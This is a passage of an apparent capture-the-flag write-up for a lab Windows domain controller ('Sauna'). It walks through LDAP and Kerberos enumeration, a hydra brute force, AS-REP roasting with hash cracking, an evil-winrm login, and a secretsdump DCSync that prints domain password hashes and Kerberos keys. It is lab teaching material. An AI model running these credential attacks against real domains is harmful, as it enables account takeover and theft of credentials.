|     dn: CN=NTDS Quotas,DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: CN=Managed Service Accounts,DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: CN=Keys,DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: CN=TPM Devices,DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: CN=Builtin,DC=EGOTISTICAL-BANK,DC=LOCAL
|_    dn: CN=Hugo Smith,DC=EGOTISTICAL-BANK,DC=LOCAL
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL, Site: Default-First-Site-Name)
| ldap-rootdse: 
| LDAP Results
|   <ROOT>
|       domainFunctionality: 7
|       forestFunctionality: 7
|       domainControllerFunctionality: 7
|       rootDomainNamingContext: DC=EGOTISTICAL-BANK,DC=LOCAL
|       ldapServiceName: EGOTISTICAL-BANK.LOCAL:sauna$@EGOTISTICAL-BANK.LOCAL
|       isGlobalCatalogReady: TRUE
|       supportedSASLMechanisms: GSSAPI
|       supportedSASLMechanisms: GSS-SPNEGO
|       supportedSASLMechanisms: EXTERNAL
|       supportedSASLMechanisms: DIGEST-MD5
|       supportedLDAPVersion: 3
|       supportedLDAPVersion: 2
|       supportedLDAPPolicies: MaxPoolThreads
|       supportedLDAPPolicies: MaxPercentDirSyncRequests
|       supportedLDAPPolicies: MaxDatagramRecv
|       supportedLDAPPolicies: MaxReceiveBuffer
|       supportedLDAPPolicies: InitRecvTimeout
|       supportedLDAPPolicies: MaxConnections
|       supportedLDAPPolicies: MaxConnIdleTime
|       supportedLDAPPolicies: MaxPageSize
|       supportedLDAPPolicies: MaxBatchReturnMessages
|       supportedLDAPPolicies: MaxQueryDuration
|       supportedLDAPPolicies: MaxDirSyncDuration
|       supportedLDAPPolicies: MaxTempTableSize
|       supportedLDAPPolicies: MaxResultSetSize
|       supportedLDAPPolicies: MinResultSets
|       supportedLDAPPolicies: MaxResultSetsPerConn
|       supportedLDAPPolicies: MaxNotificationPerConn
|       supportedLDAPPolicies: MaxValRange
|       supportedLDAPPolicies: MaxValRangeTransitive
|       supportedLDAPPolicies: ThreadMemoryLimit
|       supportedLDAPPolicies: SystemMemoryLimitPercent
|       supportedControl: 1.2.840.113556.1.4.319
|       supportedControl: 1.2.840.113556.1.4.801
|       supportedControl: 1.2.840.113556.1.4.473
|       supportedControl: 1.2.840.113556.1.4.528
|       supportedControl: 1.2.840.113556.1.4.417
|       supportedControl: 1.2.840.113556.1.4.619
|       supportedControl: 1.2.840.113556.1.4.841
|       supportedControl: 1.2.840.113556.1.4.529
|       supportedControl: 1.2.840.113556.1.4.805
|       supportedControl: 1.2.840.113556.1.4.521
|       supportedControl: 1.2.840.113556.1.4.970
|       supportedControl: 1.2.840.113556.1.4.1338
|       supportedControl: 1.2.840.113556.1.4.474
|       supportedControl: 1.2.840.113556.1.4.1339
|       supportedControl: 1.2.840.113556.1.4.1340
|       supportedControl: 1.2.840.113556.1.4.1413
|       supportedControl: 2.16.840.1.113730.3.4.9
|       supportedControl: 2.16.840.1.113730.3.4.10
|       supportedControl: 1.2.840.113556.1.4.1504
|       supportedControl: 1.2.840.113556.1.4.1852
|       supportedControl: 1.2.840.113556.1.4.802
|       supportedControl: 1.2.840.113556.1.4.1907
|       supportedControl: 1.2.840.113556.1.4.1948
|       supportedControl: 1.2.840.113556.1.4.1974
|       supportedControl: 1.2.840.113556.1.4.1341
|       supportedControl: 1.2.840.113556.1.4.2026
|       supportedControl: 1.2.840.113556.1.4.2064
|       supportedControl: 1.2.840.113556.1.4.2065
|       supportedControl: 1.2.840.113556.1.4.2066
|       supportedControl: 1.2.840.113556.1.4.2090
|       supportedControl: 1.2.840.113556.1.4.2205
|       supportedControl: 1.2.840.113556.1.4.2204
|       supportedControl: 1.2.840.113556.1.4.2206
|       supportedControl: 1.2.840.113556.1.4.2211
|       supportedControl: 1.2.840.113556.1.4.2239
|       supportedControl: 1.2.840.113556.1.4.2255
|       supportedControl: 1.2.840.113556.1.4.2256
|       supportedControl: 1.2.840.113556.1.4.2309
|       supportedControl: 1.2.840.113556.1.4.2330
|       supportedControl: 1.2.840.113556.1.4.2354
|       supportedCapabilities: 1.2.840.113556.1.4.800
|       supportedCapabilities: 1.2.840.113556.1.4.1670
|       supportedCapabilities: 1.2.840.113556.1.4.1791
|       supportedCapabilities: 1.2.840.113556.1.4.1935
|       supportedCapabilities: 1.2.840.113556.1.4.2080
|       supportedCapabilities: 1.2.840.113556.1.4.2237
|       subschemaSubentry: CN=Aggregate,CN=Schema,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
|       serverName: CN=SAUNA,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
|       schemaNamingContext: CN=Schema,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
|       namingContexts: DC=EGOTISTICAL-BANK,DC=LOCAL
|       namingContexts: CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
|       namingContexts: CN=Schema,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
|       namingContexts: DC=DomainDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
|       namingContexts: DC=ForestDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
|       isSynchronized: TRUE
|       highestCommittedUSN: 98395
|       dsServiceName: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
|       dnsHostName: SAUNA.EGOTISTICAL-BANK.LOCAL
|       defaultNamingContext: DC=EGOTISTICAL-BANK,DC=LOCAL
|       currentTime: 20221022023118.0Z
|_      configurationNamingContext: CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
| ldap-search: 
|   Context: DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: DC=EGOTISTICAL-BANK,DC=LOCAL
|         objectClass: top
|         objectClass: domain
|         objectClass: domainDNS
|         distinguishedName: DC=EGOTISTICAL-BANK,DC=LOCAL
|         instanceType: 5
|         whenCreated: 2020/01/23 05:44:25 UTC
|         whenChanged: 2022/10/21 21:18:16 UTC
|         subRefs: DC=ForestDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
|         subRefs: DC=DomainDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
|         subRefs: CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
|         uSNCreated: 4099
|         uSNChanged: 98336
|         name: EGOTISTICAL-BANK
|         objectGUID: 504e6ec-c122-a143-93c0-cf487f83363
|         replUpToDateVector: \x02\x00\x00\x00\x00\x00\x00\x00\x06\x00\x00\x00\x00\x00\x00\x00F\xC6\xFFTH\x85uJ\xBF     \xC2\xD4\x05j\xE2\x8F\x16\x80\x01\x00\x00\x00\x00\x00\x97\x9Dc\x19\x03\x00\x00\x00\xAB\x8C\xEFx\xD1I\x85D\xB2\xC2\xED\x9Ce\xFE\xAF\xAD\x0C\xE0\x00\x00\x00\x00\x00\x00(8\xFE\x16\x03\x00\x00\x00\xDC\xD1T\x81\xF1a.B\xB4D
|         @     \xE6\x84u\x15p\x01\x00\x00\x00\x00\x00\xD4n\x0F\x17\x03\x00\x00\x00\xFDZ\x85\x92F\xDE^A\xAAVnj@#\xF6\x0C\x0B\xD0\x00\x00\x00\x00\x00\x00\xD0\xF0
|         \x15\x03\x00\x00\x00\x9B\xF0\xC5\x9Fl\x1D|E\x8B\x15\xFA/\x1A>\x13N\x14`\x01\x00\x00\x00\x00\x00\x10\xD5\x00\x17\x03\x00\x00\x00@\xBE\xE0\xB3\xC6%\xECD\xB2\xB9\x9F\xF8\D\xB2\xEC      \xB0\x00\x00\x00\x00\x00\x00\xD4\x04R\x14\x03\x00\x00\x00
|         objectSid: 1-5-21-2966785786-3096785034-1186376766
|         wellKnownObjects: B:32:6227F0AF1FC2410D8E3BB10615BB5B0F:CN=NTDS Quotas,DC=EGOTISTICAL-BANK,DC=LOCAL
|         wellKnownObjects: B:32:F4BE92A4C777485E878E9421D53087DB:CN=Microsoft,CN=Program Data,DC=EGOTISTICAL-BANK,DC=LOCAL
|         wellKnownObjects: B:32:09460C08AE1E4A4EA0F64AEE7DAA1E5A:CN=Program Data,DC=EGOTISTICAL-BANK,DC=LOCAL
|         wellKnownObjects: B:32:22B70C67D56E4EFB91E9300FCA3DC1AA:CN=ForeignSecurityPrincipals,DC=EGOTISTICAL-BANK,DC=LOCAL
|         wellKnownObjects: B:32:18E2EA80684F11D2B9AA00C04F79F805:CN=Deleted Objects,DC=EGOTISTICAL-BANK,DC=LOCAL
|         wellKnownObjects: B:32:2FBAC1870ADE11D297C400C04FD8D5CD:CN=Infrastructure,DC=EGOTISTICAL-BANK,DC=LOCAL
|         wellKnownObjects: B:32:AB8153B7768811D1ADED00C04FD8D5CD:CN=LostAndFound,DC=EGOTISTICAL-BANK,DC=LOCAL
|         wellKnownObjects: B:32:AB1D30F3768811D1ADED00C04FD8D5CD:CN=System,DC=EGOTISTICAL-BANK,DC=LOCAL
|         wellKnownObjects: B:32:A361B2FFFFD211D1AA4B00C04FD7D83A:OU=Domain Controllers,DC=EGOTISTICAL-BANK,DC=LOCAL
|         wellKnownObjects: B:32:AA312825768811D1ADED00C04FD8D5CD:CN=Computers,DC=EGOTISTICAL-BANK,DC=LOCAL
|         wellKnownObjects: B:32:A9D1CA15768811D1ADED00C04FD8D5CD:CN=Users,DC=EGOTISTICAL-BANK,DC=LOCAL
|         objectCategory: CN=Domain-DNS,CN=Schema,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
|         gPLink: [LDAP://CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=System,DC=EGOTISTICAL-BANK,DC=LOCAL;0]
|         dSCorePropagationData: 1601/01/01 00:00:00 UTC
|         masteredBy: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
|         msDs-masteredBy: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
|         msDS-IsDomainFor: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
|         dc: EGOTISTICAL-BANK
|     dn: CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: CN=Users,DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: CN=Computers,DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: OU=Domain Controllers,DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: CN=System,DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: CN=LostAndFound,DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: CN=Infrastructure,DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: CN=ForeignSecurityPrincipals,DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: CN=Program Data,DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: CN=NTDS Quotas,DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: CN=Managed Service Accounts,DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: CN=Keys,DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: CN=Schema,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: CN=TPM Devices,DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: CN=Builtin,DC=EGOTISTICAL-BANK,DC=LOCAL
|_    dn: CN=Hugo Smith,DC=EGOTISTICAL-BANK,DC=LOCAL
3269/tcp open  tcpwrapped
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.24 seconds
```

```bash
┌──(kali㉿kali)-[~/Documents/sauna]
└─$ nmap -p 389 --script ldap-search -Pn 10.10.10.175
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-21 16:45 EDT
Nmap scan report for 10.10.10.175
Host is up (0.043s latency).

PORT    STATE SERVICE
389/tcp open  ldap
| ldap-search: 
|   Context: DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: DC=EGOTISTICAL-BANK,DC=LOCAL
|         objectClass: top
|         objectClass: domain
|         objectClass: domainDNS
|         distinguishedName: DC=EGOTISTICAL-BANK,DC=LOCAL
|         instanceType: 5
|         whenCreated: 2020/01/23 05:44:25 UTC
|         whenChanged: 2022/10/21 21:18:16 UTC
|         subRefs: DC=ForestDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
|         subRefs: DC=DomainDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
|         subRefs: CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
|         uSNCreated: 4099
|         dSASignature: \x01\x00\x00\x00(\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00@\xBE\xE0\xB3\xC6%\xECD\xB2\xB9\x9F\xF8\D\xB2\xEC
|         uSNChanged: 98336
|         name: EGOTISTICAL-BANK
|         objectGUID: 504e6ec-c122-a143-93c0-cf487f83363
|         replUpToDateVector: \x02\x00\x00\x00\x00\x00\x00\x00\x06\x00\x00\x00\x00\x00\x00\x00F\xC6\xFFTH\x85uJ\xBF     \xC2\xD4\x05j\xE2\x8F\x16\x80\x01\x00\x00\x00\x00\x00\x97\x9Dc\x19\x03\x00\x00\x00\xAB\x8C\xEFx\xD1I\x85D\xB2\xC2\xED\x9Ce\xFE\xAF\xAD\x0C\xE0\x00\x00\x00\x00\x00\x00(8\xFE\x16\x03\x00\x00\x00\xDC\xD1T\x81\xF1a.B\xB4D
|         @     \xE6\x84u\x15p\x01\x00\x00\x00\x00\x00\xD4n\x0F\x17\x03\x00\x00\x00\xFDZ\x85\x92F\xDE^A\xAAVnj@#\xF6\x0C\x0B\xD0\x00\x00\x00\x00\x00\x00\xD0\xF0
|         \x15\x03\x00\x00\x00\x9B\xF0\xC5\x9Fl\x1D|E\x8B\x15\xFA/\x1A>\x13N\x14`\x01\x00\x00\x00\x00\x00\x10\xD5\x00\x17\x03\x00\x00\x00@\xBE\xE0\xB3\xC6%\xECD\xB2\xB9\x9F\xF8\D\xB2\xEC      \xB0\x00\x00\x00\x00\x00\x00\xD4\x04R\x14\x03\x00\x00\x00
|         creationTime: 133108606968291675
|         forceLogoff: -9223372036854775808
|         lockoutDuration: -18000000000
|         lockOutObservationWindow: -18000000000
|         lockoutThreshold: 0
|         maxPwdAge: -36288000000000
|         minPwdAge: -864000000000
|         minPwdLength: 7
|         modifiedCountAtLastProm: 0
|         nextRid: 1000
|         pwdProperties: 1
|         pwdHistoryLength: 24
|         objectSid: 1-5-21-2966785786-3096785034-1186376766
|         serverState: 1
|         uASCompat: 1
|         modifiedCount: 1
|         auditingPolicy: \x00\x01
|         nTMixedDomain: 0
|         rIDManagerReference: CN=RID Manager$,CN=System,DC=EGOTISTICAL-BANK,DC=LOCAL
|         fSMORoleOwner: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
|         systemFlags: -1946157056
|         wellKnownObjects: B:32:6227F0AF1FC2410D8E3BB10615BB5B0F:CN=NTDS Quotas,DC=EGOTISTICAL-BANK,DC=LOCAL
|         wellKnownObjects: B:32:F4BE92A4C777485E878E9421D53087DB:CN=Microsoft,CN=Program Data,DC=EGOTISTICAL-BANK,DC=LOCAL
|         wellKnownObjects: B:32:09460C08AE1E4A4EA0F64AEE7DAA1E5A:CN=Program Data,DC=EGOTISTICAL-BANK,DC=LOCAL
|         wellKnownObjects: B:32:22B70C67D56E4EFB91E9300FCA3DC1AA:CN=ForeignSecurityPrincipals,DC=EGOTISTICAL-BANK,DC=LOCAL
|         wellKnownObjects: B:32:18E2EA80684F11D2B9AA00C04F79F805:CN=Deleted Objects,DC=EGOTISTICAL-BANK,DC=LOCAL
|         wellKnownObjects: B:32:2FBAC1870ADE11D297C400C04FD8D5CD:CN=Infrastructure,DC=EGOTISTICAL-BANK,DC=LOCAL
|         wellKnownObjects: B:32:AB8153B7768811D1ADED00C04FD8D5CD:CN=LostAndFound,DC=EGOTISTICAL-BANK,DC=LOCAL
|         wellKnownObjects: B:32:AB1D30F3768811D1ADED00C04FD8D5CD:CN=System,DC=EGOTISTICAL-BANK,DC=LOCAL
|         wellKnownObjects: B:32:A361B2FFFFD211D1AA4B00C04FD7D83A:OU=Domain Controllers,DC=EGOTISTICAL-BANK,DC=LOCAL
|         wellKnownObjects: B:32:AA312825768811D1ADED00C04FD8D5CD:CN=Computers,DC=EGOTISTICAL-BANK,DC=LOCAL
|         wellKnownObjects: B:32:A9D1CA15768811D1ADED00C04FD8D5CD:CN=Users,DC=EGOTISTICAL-BANK,DC=LOCAL
|         objectCategory: CN=Domain-DNS,CN=Schema,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
|         isCriticalSystemObject: TRUE
|         gPLink: [LDAP://CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=System,DC=EGOTISTICAL-BANK,DC=LOCAL;0]
|         dSCorePropagationData: 1601/01/01 00:00:00 UTC
|         otherWellKnownObjects: B:32:683A24E2E8164BD3AF86AC3C2CF3F981:CN=Keys,DC=EGOTISTICAL-BANK,DC=LOCAL
|         otherWellKnownObjects: B:32:1EB93889E40C45DF9F0C64D23BBB6237:CN=Managed Service Accounts,DC=EGOTISTICAL-BANK,DC=LOCAL
|         masteredBy: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
|         ms-DS-MachineAccountQuota: 10
|         msDS-Behavior-Version: 7
|         msDS-PerUserTrustQuota: 1
|         msDS-AllUsersTrustQuota: 1000
|         msDS-PerUserTrustTombstonesQuota: 10
|         msDs-masteredBy: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
|         msDS-IsDomainFor: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
|         msDS-NcType: 0
|         msDS-ExpirePasswordsOnSmartCardOnlyAccounts: TRUE
|         dc: EGOTISTICAL-BANK
|     dn: CN=Users,DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: CN=Computers,DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: OU=Domain Controllers,DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: CN=System,DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: CN=LostAndFound,DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: CN=Infrastructure,DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: CN=ForeignSecurityPrincipals,DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: CN=Program Data,DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: CN=NTDS Quotas,DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: CN=Managed Service Accounts,DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: CN=Keys,DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: CN=TPM Devices,DC=EGOTISTICAL-BANK,DC=LOCAL
|     dn: CN=Builtin,DC=EGOTISTICAL-BANK,DC=LOCAL
|_    dn: CN=Hugo Smith,DC=EGOTISTICAL-BANK,DC=LOCAL

Nmap done: 1 IP address (1 host up) scanned in 0.48 seconds
```

### ldapsearch-ad

```bash
┌──(kali㉿kali)-[~/Documents/sauna]
└─$ python3 /opt/ldapsearch-ad/ldapsearch-ad.py -l 10.10.10.175 -t info                                         
### Server infos ###
[+] Forest functionality level = Windows 2016
[+] Domain functionality level = Windows 2016
[+] Domain controller functionality level = Windows 2016
[+] rootDomainNamingContext = DC=EGOTISTICAL-BANK,DC=LOCAL
[+] defaultNamingContext = DC=EGOTISTICAL-BANK,DC=LOCAL
[+] ldapServiceName = EGOTISTICAL-BANK.LOCAL:sauna$@EGOTISTICAL-BANK.LOCAL
[+] naming_contexts = ['DC=EGOTISTICAL-BANK,DC=LOCAL', 'CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL', 'CN=Schema,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL', 'DC=DomainDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL', 'DC=ForestDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL']
```

### Bruteforce with hydra

- As we found previously a user name hugo smith let's try to bruteforce with hsmith
- `hydra -l hsmith -P /usr/share/wordlists/rockyou.txt 10.10.10.175 ldap2 -V -f`

```bash
[ATTEMPT] target 10.10.10.175 - login "hsmith" - pass "1234554321" - 4767 of 14344399 [child 15] (0/0)
[389][ldap2] host: 10.10.10.175   login: hsmith
```

- We get `hsmith:1234554321`
=> Probably a false positive

## Kerberos enumeration

- `nmap -p 88 --script krb5-enum-users --script-args krb5-enum-users.realm='EGOTISTICAL-BANK.LOCAL',userdb=users.txt 10.10.10.175`  
  => nothing here

- See if we can find a username with [kerbrute](https://github.com/ropnop/kerbrute)

```bash
┌──(kali㉿kali)-[~/Documents/sauna]
└─$ ./kerbrute_linux_amd64 userenum -d EGOTISTICAL-BANK.LOCAL --dc 10.10.10.175 /usr/share/wordlists/SecLists/Usernames/top-usernames-shortlist.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 10/22/22 - Ronnie Flathers @ropnop

2022/10/22 16:29:20 >  Using KDC(s):
2022/10/22 16:29:20 >   10.10.10.175:88

2022/10/22 16:29:20 >  [+] VALID USERNAME:       administrator@EGOTISTICAL-BANK.LOCAL
2022/10/22 16:29:20 >  Done! Tested 17 usernames (1 valid) in 0.072 seconds
```

- We do get something so it is worth trying other lists
- Let's try with the one we made using the http and ldap enumeration 
- Here is the list I have so far

```txt
jjoy
jenny.joy
Admin
hsmith
hugo.smith
fsmith
fergus.smith
scoins
shaun.coins
sdriver
sophie.driver
btaylor
bowie.taylor
hbear
hugo.bear
skerb
steven.kerb
```

- Let's try

```bash
┌──(kali㉿kali)-[~/Documents/sauna]
└─$ ./kerbrute_linux_amd64 userenum -d EGOTISTICAL-BANK.LOCAL --dc 10.10.10.175 users.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 10/22/22 - Ronnie Flathers @ropnop

2022/10/22 16:45:30 >  Using KDC(s):
2022/10/22 16:45:30 >   10.10.10.175:88

2022/10/22 16:45:30 >  [+] VALID USERNAME:       fsmith@EGOTISTICAL-BANK.LOCAL
2022/10/22 16:45:30 >  [+] VALID USERNAME:       hsmith@EGOTISTICAL-BANK.LOCAL
2022/10/22 16:45:30 >  Done! Tested 17 usernames (2 valid) in 0.054 seconds

```

- We find hsmith again but also fsmith is a valid user as well

- Let's try with other lists from the Seclist repo there is a huge one, let's launch it for a while and see what we get

```bash
┌──(kali㉿kali)-[~/Documents/sauna]
└─$ ./kerbrute_linux_amd64 userenum -d EGOTISTICAL-BANK.LOCAL --dc 10.10.10.175 /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 10/22/22 - Ronnie Flathers @ropnop

2022/10/22 16:36:54 >  Using KDC(s):
2022/10/22 16:36:54 >   10.10.10.175:88

2022/10/22 16:37:00 >  [+] VALID USERNAME:       administrator@EGOTISTICAL-BANK.LOCAL
2022/10/22 16:37:29 >  [+] VALID USERNAME:       hsmith@EGOTISTICAL-BANK.LOCAL
2022/10/22 16:37:33 >  [+] VALID USERNAME:       Administrator@EGOTISTICAL-BANK.LOCAL
2022/10/22 16:37:50 >  [+] VALID USERNAME:       fsmith@EGOTISTICAL-BANK.LOCAL
2022/10/22 16:40:29 >  [+] VALID USERNAME:       Fsmith@EGOTISTICAL-BANK.LOCAL
```

- We do not get anything new. As it is very huge and we got some hits let's just ctrl+c.

- Let's try hydra again but with fsmith `hydra -l hsmith -P /usr/share/wordlists/rockyou.txt 10.10.10.175 ldap2 -V -f`  
  => We get a false positive again

- Let's go further with kerberos and try AS-REP Roasting we have the command for impacket GetNPUsers in [lisandre's blog](https://lisandre.com/archives/15304)
- `python3 /opt/impacket/examples/GetNPUsers.py -no-pass -dc-ip 10.10.10.175 EGOTISTICAL-BANK.LOCAL/ -usersfile users.txt -outputfile hashes.txt`

> Please note here that is really important not to forget the .LOCAL in the domain as well as the / in the end.

- We get a hash for fsmith

```bash
┌──(kali㉿kali)-[~/Documents/sauna]
└─$ cat hashes.txt 
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:def56387c87bb3143856e532996f056c$440373bf3d92a8f10813369507b133c75a97a2072d3dbd7a7b5aa8995c71514c416b70c947d5789ad8c27742c9c8aace244578fa4d91f12a3d20e9855ee746cee50b170290b6e564a69bbdf6e1db4da433366586e964554c46773510e83194564ad141cebf1b51f85268a7ab22681a8600c57e92d388d9f3b59652aafa4e91c8914e747f4fa59cd0bab5fac16c46995e5d4e71bee88d1ce0490853acbc6874b691f71072f298f9077d8254446395cca0e7cfce5453b00a91564055f3f0a33fb96c7b9ff57a6613393b17e4cd5f15a6f3656ca220cde49d90a619c11750d991b025898a3e03f73fd80285fe0eb6e89537a173614e3cbdcc5e2b29c01784b531e6
```

- Let's try to crack the hash with hashcat `hashcat -m 18200 hashes.txt /usr/share/wordlists/rockyou.txt`
- And we get a password `Thestrokes23`

- Now let's connect with evil winrm `evil-winrm -i 10.10.10.175 -u fsmith -p 'Thestrokes23'`

- We can get the user flag `cat user.txt`



## Privesc

### Winpeas

- We find creds for svc_loanmanager

```bash
ÉÍÍÍÍÍÍÍÍÍ͹ Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultDomainName             :  EGOTISTICALBANK
    DefaultUserName               :  EGOTISTICALBANK\svc_loanmanager
    DefaultPassword               :  Moneymakestheworldgoround!

```

- Trying to enumerate things with `svc_loanmanager` does not work

### Bloodhound

- In our evil-winrm session `upload /usr/lib/bloodhound/resources/app/Collectors/SharpHound.exe`
- `.\SharpHound.exe -c all`
- `download 20221023164632_BloodHound.zip`
- In our kali `sudo neo4j console`
- `bloodhound`
- We can put the zip in bloodhound
- Turns out in bloodhound when we search for svc_loanmanager we find `SVC_LOANMGR@EGOTISTICAL-BANK.LOCAL` (we could also have found it using `net user` in our shell)
- If we do further enumeration with this writing of the username it works
- We can dump hashes with secretsdump from impacket

```bash
┌──(kali㉿kali)-[~/Documents/sauna]
└─$ python3 /opt/impacket/examples/secretsdump.py EGOTISTICALBANK/svc_loanmgr:'Moneymakestheworldgoround!'@10.10.10.175 
Impacket v0.9.23.dev1+20210528.195232.25c62f65 - Copyright 2020 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4a8899428cad97676ff802229e466e2c:::
EGOTISTICAL-BANK.LOCAL\HSmith:1103:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\FSmith:1105:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:1108:aad3b435b51404eeaad3b435b51404ee:9cb31797c39a9b170b04058ba2bba48c:::
SAUNA$:1000:aad3b435b51404eeaad3b435b51404ee:8a8f2c31c3ccf9e9562999139d4ffd53:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:42ee4a7abee32410f470fed37ae9660535ac56eeb73928ec783b015d623fc657
Administrator:aes128-cts-hmac-sha1-96:a9f3769c592a8a231c3c972c4050be4e
Administrator:des-cbc-md5:fb8f321c64cea87f
krbtgt:aes256-cts-hmac-sha1-96:83c18194bf8bd3949d4d0d94584b868b9d5f2a54d3d6f3012fe0921585519f24
krbtgt:aes128-cts-hmac-sha1-96:c824894df4c4c621394c079b42032fa9
krbtgt:des-cbc-md5:c170d5dc3edfc1d9
